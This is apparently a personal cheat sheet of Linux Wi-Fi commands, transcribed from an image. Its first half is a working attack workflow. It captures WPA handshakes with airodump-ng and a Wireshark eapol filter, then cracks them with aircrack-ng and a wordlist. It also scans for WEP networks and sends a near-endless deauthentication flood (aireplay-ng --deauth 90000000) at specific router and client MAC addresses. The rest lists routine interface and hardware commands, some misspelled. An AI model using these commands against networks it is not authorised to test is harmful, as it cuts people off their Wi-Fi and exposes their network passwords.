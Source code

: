 ```exits the terminal without saving history ```
airodump-ng wlx0013eff5483f -c 11 & wireshark ## TO BROADCAST ESSID and use wireshark for packet injection 
## find transmitter device on wireshark and set filter with pipe 
wlan.ta == MAC || wlan.da MAC #(da = destination, ta is starting transmission) 
eapol #(in wireshark filter--> it displays the handshakes from ^) https://www.youtube.com/watch?v=5guDKTc6Hak
aircrack-ng -w 'password-list location' '.pacap location' # get pcap from wireshark ^ --> to crack the password 



airodump-ng wlx0013eff5483f --encrypt wep
airodump-ng wlx0013eff5483f -c 11
netdiscover -r 192.168.50.1/24
airodump-ng wlx0013eff5483f --encrypt wep
sudo iwlist wlx0013eff5483f scanning | egrep 'Cell |Encryption|Quality|Last beacon|ESSID'

#### TO GET DEVICES AND DISTANCE
sudo iw dev wlx0013eff5483f scan | egrep "signal:|SSID:" | sed -e "s/\tsignal: //" -e "s/\tSSID: //" | awk '{ORS = (NR % 2 == 0)? "\n" : " "; print}' | sort
##### TO FIND WEP PROTECTION ####
airodump-ng wlx0013eff5483f --encrypt wep
aireplay-ng -0 0 mac -c mac_of_radio radio_name 
airemon-ng start external_radio 6 # the number is the channel  (TO START MONITOR MODE) 
kismet -c radio_name  ## GETS THE MAC ADDRESS 

## send deauth
#1 find mac for router (-a) and client (-c)
netdiscover -r 192.168.50.1/24
aireplay-ng --deauth 90000000 -a F0:2F:74:2C:7E:88 -c 9a:26:55:ed:ef:84 wlo1







###########################
### IFRENAME ### 
ifrename # to rename wireless 
iwevent # display wireless events 
iwgetid # reports current essid 
iwlist # scan savailable aps or essid 
iwspy # monitors iw nodes and records strenght and quality of signal 



######### TO DISPLAY AND SHOW USB DEVICES #### 
lspci 
lscpu
lsusb
lsblk
lslo 
lsslcb
lshw 



## to get available ESSID 
sudo iwlist [nic name] scan | grep ESSID 
nmcli dev wifi 


```